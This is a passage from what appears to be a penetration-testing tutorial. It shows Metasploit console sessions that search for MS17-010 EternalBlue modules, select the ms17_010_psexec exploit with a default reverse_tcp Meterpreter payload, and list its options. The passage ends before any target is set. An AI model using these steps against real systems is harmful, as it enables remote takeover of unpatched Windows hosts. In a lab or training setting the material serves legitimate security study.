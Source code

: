 Now, we can see from the check results that our target is likely vulnerable to EternalBlue. Let's set up the exploit and payload now, then give it a shot.

3. Select Exploit & Payload, then Deliver

### **Choose & Configure Our Exploit & Payload**

```shell-session
msf6 > search eternal

Matching Modules
================

   #  Name                                           Disclosure Date  Rank     Check  Description
   -  ----                                           ---------------  ----     -----  -----------
   0  exploit/windows/smb/ms17_010_eternalblue       2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   1  exploit/windows/smb/ms17_010_eternalblue_win8  2017-03-14       average  No     MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption for Win8+
   2  exploit/windows/smb/ms17_010_psexec            2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   3  auxiliary/admin/smb/ms17_010_command           2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   4  auxiliary/scanner/smb/smb_ms17_010                              normal   No     MS17-010 SMB RCE Detection
   5  exploit/windows/smb/smb_doublepulsar_rce       2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution
```

For this instance, we dug through MSF's exploit modules utilizing the search function to look for an exploit matching EternalBlue. The list above was the result. Since I have had more luck with the `psexec` version of this exploit, we will try that one first. Let's choose it and continue the setup.

### **Configure The Exploit & Payload**

```shell-session
msf6 > use 2
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_psexec) > options

Module options (exploit/windows/smb/ms17_010_psexec):

   Name                  Current Setting              Required  Description
   ----                  ---------------              --------  -----------
   DBGTRACE              false                        yes       Show extra debug trace info
   LEAKATTEMPTS          99                           yes       How many times to try to leak transaction
   NAMEDPIPE                                          no        A named pipe that can be connected to (leave bl
                                                                ank for auto)
   NAMED_PIPES           /usr/share/metasploit-frame  yes       List of named pipes to check
                         work/data/wordlists/named_p
                         ipes.txt
   RHOSTS                                             yes       The target host(s), range CIDR identifier, or h
                                                                osts file with syntax 'file:<path>'
   RPORT                 445                          yes       The Target port (TCP)
   SERVICE_DESCRIPTION                                no        Service description to to be used on target for
                                                                 pretty listing
   SERVICE_DISPLAY_NAME                               no        The service display name
   SERVICE_NAME                                       no        The service name
   SHARE                 ADMIN$                       yes       The share to connect to, can be an admin share
```